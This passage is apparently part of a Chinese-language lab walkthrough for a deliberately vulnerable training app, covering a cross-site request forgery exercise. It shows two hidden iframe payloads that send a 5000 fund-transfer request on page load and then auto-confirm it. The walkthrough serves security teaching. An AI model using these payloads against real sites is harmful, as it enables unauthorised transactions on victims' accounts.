* 查看src及menu参数，对发送信息进行修改

```javascript
<HR>
<iframe src="attack?Screen=1471017872&menu=900&transferFunds=5000"/>
<br>
<HR>
<iframe src="attack?Screen=1471017872&menu=900&transferFunds=CONFIRM"/>
<HR>
```

页面在加载第一个frame时，发送转账5000的请求：

```javascript
<iframe src="attack?Screen=1471017872&menu=900&transferFunds=5000"/>
```

加载第二个iframe时，自动访问网址，显示一个确认按钮，来确认转账成功。 

```javascript
<iframe src="attack?Screen=1471017872&menu=900&transferFunds=CONFIRM"/>
```

<img src="image/24.png" />

* 结果如下，可以看到转账确认按钮
